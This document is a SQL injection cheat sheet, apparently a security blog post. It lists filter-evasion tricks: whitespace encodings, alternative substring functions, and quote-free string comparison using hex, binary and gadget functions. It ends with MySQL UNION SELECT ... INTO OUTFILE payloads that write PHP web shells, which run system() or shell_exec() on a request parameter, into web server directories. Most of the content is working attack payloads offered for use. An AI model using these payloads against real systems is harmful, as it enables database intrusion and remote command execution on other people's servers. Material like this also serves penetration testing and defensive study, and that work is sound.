 ```yaml
---
title: ["SQL Injection Cheat Sheet"]
date: 2024-12-27 09:00:00 +0900
categories: [cheatsheet, sqli]
tags: [web, sqli, cheatsheet]
---
```


### White Space
```
%20  // SPACE
%09  // HORIZONTAL TAB
%0a  // LINE FEED
%0b  // VERTICAL TAB
%0c  // FORM FEED
%0d  // CARRIAGE RETURN
%a0  // NBSP
/**/
select(id)from(table)where(id=1)
```

### Substring
```
substr(id,1,1)
substr(id from 1 for 1)
mid(id,1,1)
right(left(id,1),1)
lpad(id,1,space(1))
reverse(right(reverse(id),1))
convert(id,char(1))
```

### String Compare without Single Quotation
```
admin=0x61646d696e                                 // using Hex
admin=0b0110000101100100011011010110100101101110   // using Binary
substr(monthname(from_unixtime(1)),2,1)='a'        // using Gadget
```

### Number Expression
```
True = 1
False = 0
True+True = 2
True-True = 0
```


### MYSQL Command Execution
#### WEBSHELL - OUTFILE Method
```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

Make sure to check `secure-file-priv` path.  
When `mysql/config/my.cnf` has `secure-file-priv=/tmp/` set, it means:  
  MYSQL's `INTO OUTFILE` command can only write files to the `/tmp/` directory
